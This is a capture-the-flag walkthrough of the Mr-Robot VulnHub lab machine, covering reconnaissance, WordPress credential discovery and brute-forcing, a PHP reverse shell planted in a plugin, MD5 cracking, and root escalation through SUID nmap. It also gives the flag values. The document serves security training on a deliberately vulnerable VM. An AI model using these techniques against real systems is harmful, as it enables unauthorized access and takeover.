






# Mr-Robot: 1 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/mr-robot-1,151/](https://www.vulnhub.com/entry/mr-robot-1,151/)

> Description:  
> Based on the show Mr Robot.  
> This VM has three keys hidden in different locations. Your goal is to find all three. Each key is Progressively difficult to find.  
> The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.

---

# Stage 0: Preparation

Since the IP address of the Boot2Root VM is a static IP address of 192.168.1.100/24, we will need to change our IP address to match the subnet

`ifconfig eth0 192.168.1.101 netmask 255.255.255.0`

---

# Stage 1: Reconnaissance

Tools used:
* nmap

First off, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EST
Nmap scan report for 192.168.1.100
Host is up (0.00046s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
MAC Address: 08:00:27:CF:7F:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.50 seconds
```

---

# Stage 2: Enumeration

Tools used:
* nikto
* wpscan
* wget

```
root@kali:~# nikto -host 192.168.1.100
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x29 0x52467010ef8ad 
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /readme: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.100.4/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT-5) (202 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Using `nikto` yielded some interesting facts. Firstly, beyond the homepage which basically has a URL blackhole paying homage to Mr. Robot the USA Network TV series which I recommend you should watch, it is running a Wordpress application. Some interesting files include /readme, which taunts the user with the following text: `I like where you head is at. However I'm not going to help you.`. Another one is license.txt, which usually shows you licensing information, but accessing this file yielded this:

```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?

// output truncated

do you want a password or something?

// output truncated

ZWxsaW90OkVSMjgtMDY1Mgo=
```

At the bottom of the page, there is a base64 string which when decoded, translates to `elliot:ER28-0652`. I'm assuming that it's the username and password for the wordpress application (user:pass in basic-auth format). The last interesting file is /robots.txt which is a typical file to be on web servers:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

With that, we have found the first of three key files (`073403c8a58a1f80d943455fb30724b9`)! The other file seems like a dictionary of some sorts, so let's download it with `wget`.

```
root@kali:~# wget http://192.168.1.100/fsocity.dic
root@kali:~# ls -lh
total 7.0M
-rw-r--r-- 1 root root 7.0M Nov 13  2015 fsocity.dic
```

What? 7.0M? That's a tad too large for a theme specific dictionary. I had to use `sort -u` to remove duplicates, which seems to be quite a bit (basically a form of troll on the creator's part to lengthen your bruteforce attack).

```
root@kali:~# sort -u fsocity.dic > fsocity.dic.uniq
root@kali:~# ls -lh
total 7.1M
-rw-r--r-- 1 root root 7.0M Nov 13  2015 fsocity.dic
-rw-r--r-- 1 root root  95K Dec 27 21:30 fsocity.dic.uniq
```

---

# Stage 3: Exploitation

Tools used:
* wpscan
* php-reverse-shell
* netcat
* hash-identifier
* unix-privesc-check

Now we have one of two ways to get into the wordpress site. The first way is by using the fsocity.dic.uniq that we have truncated to bruteforce the username and password of the wordpress login. This was my first method of entry since I didn't not think to read the license.txt the first time.

`wpscan -u 192.168.100.4 --usernames /root/fsocity.dic.uniq --wordlist /root/fsocity.dic.uniq`

The other method is using the "elliot:ER28-0652" that we have found. We know that the user elliot exists as entering that as the username with an incorrect password tells us a different message than if the username doesn't exist:





Now that we have gained access to the dashboard, it's time to take one step further and get a reverse shell. Using the default PHP reverse shell found in the default Kali installation (/usr/share/webshells/php), I inserted the code into a PHP file of a plugin.



Now it's time. By accessing the url `http://192.168.1.100/wp-content/plugins/akismet/class.akismet.php`, I get the victim to open up a reverse shell connection to me.



First things first, I need to upgrade my limited shell into a pseudo-tty using `python -c "import pty;pty.spawn('/bin/bash')"` so that I am able to do `su` if needed.

```
daemon@linux:/home$ ls -l /home/robot
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5

daemon@linux:/home/robot$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We see that there is a user called `robot` and the 2nd key is inside his home directory. However, only robot himself has the permissions to read it, but before I give up in despair, there is another file in the directory called `password.raw-md5` which contains the username and hash of possibly his password. Using `hash-identifier`, I am able to discern the hash as a MD5 hash.



Looking it up online reveals that the password is a-z in sequence



With that, we are now able to read the 2nd key:

```
daemon@linux:/home/robot$ su - robot
Password: abcdefghijklmnopqrstuvwxyz

$ ls
key-2-of-3.txt	password.raw-md5

$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

Now onto the final key. Typically, Boot2Root boxes like this place their final key in the /root folder, which means that we have to find a way to get root. Before jumping into to find kernel exploits, a more common way to privilege escalate would be to find misconfigured settings or permissions, such as `sudo -l` to check if robot is able to run any command as root (SPOILER: Nope, he doesn't), or SUID binaries. Let's run `unix-privesc-check` to see if there's any interesting privilege escalation vectors:

```
robot@linux:~$ wget 192.168.1.100/unix-privesc-check -O /tmp/unix-privesc-check                   
--xxxx-xx-xx xx:xx:xx--  http://192.168.1.100/unix-privesc-check
Connecting to 192.168.1.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36800 (36K)
Saving to: ‘/tmp/unix-privesc-check’

100%[======================================>] 36,800      --.-K/s   in 0s      

xxxx-xx-xx xx:xx:xx (194 MB/s) - ‘/tmp/unix-privesc-check’ saved [36800/36800]

robot@linux:~$ bash /tmp/unix-privesc-check detailed > output.txt
robot@linux:~$ grep WARNING output.txt
// output truncated
WARNING: /usr/local/bin/nmap is SUID root. /usr/local/bin/nmap contains the string /proc/net/route. The user robot can write to /proc/net
// output truncated
```

It turns out that there is an nmap on the system! Furthermore, it has the SUID flag set. Since nmap has an interactive mode and we can execute commands in that mode, let us load a new shell on top of it:

```
robot@linux:/tmp$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh

# whoami
root
```

Hurray! We are root! With that, the 3rd key is not that difficult to find:

```
# ls /root
firstboot_done	key-3-of-3.txt

# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

---

# Lessons Learnt

* I've learnt the importance of checking every interesting files shown up on scanners like nikto. Without finding out about license.txt, I'll need to gain access the hard way via bruteforcing.
* Before trying out kernel exploits to gain root privileges, always consider the easier option first (insecure permissions, misconfigured services, etc). Why hack down the front door when the door itself it unlocked?